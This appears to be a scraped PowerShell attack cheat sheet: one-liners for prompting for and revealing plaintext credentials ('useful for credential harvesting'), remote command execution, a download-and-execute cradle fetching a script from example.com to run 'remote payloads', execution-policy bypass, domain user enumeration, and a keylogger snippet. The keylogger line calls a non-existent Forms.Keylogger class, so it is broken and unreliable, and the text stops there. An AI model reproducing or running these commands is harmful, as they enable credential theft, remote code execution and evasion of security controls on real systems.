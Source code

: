 
`$cred = Get-Credential; $cred.GetNetworkCredential() | Select-Object -Property UserName, Password`

Prompts for user credentials and then displays the username and password, useful for credential harvesting.

---

## **Executing Remote Commands**


`Invoke-Command -ComputerName TargetPC -ScriptBlock { Get-Process } -Credential (Get-Credential)`

Executes a command remotely on a target PC, in this case, listing processes. Requires credentials for the target system.

---

## **Downloading and Executing Scripts from URL**


`$url = 'http://example.com/script.ps1'; Invoke-Expression (New-Object Net.WebClient).DownloadString($url)`

Downloads and executes a PowerShell script from a specified URL. Useful for executing remote payloads.

---

## **Bypassing Execution Policy for Script Execution**


`Set-ExecutionPolicy Bypass -Scope Process -Force; .\script.ps1`

Temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.

---


## **Enumerating Domain Users**



`Get-ADUser -Filter * -Properties * | Select-Object -Property Name, Enabled, LastLogonDate`

Retrieves a list of all domain users, including their names, account status, and last logon dates.

---

## **Capturing Keystrokes**



`$path = 'C:\temp\keystrokes.txt'; Add-Type -AssemblyName System.Windows.Forms; $listener = New-Object System.Windows.Forms.Keylogger; [System.Windows.Forms.Application]::Run($listener); $listener.Keys | Out-File -FilePath $path`
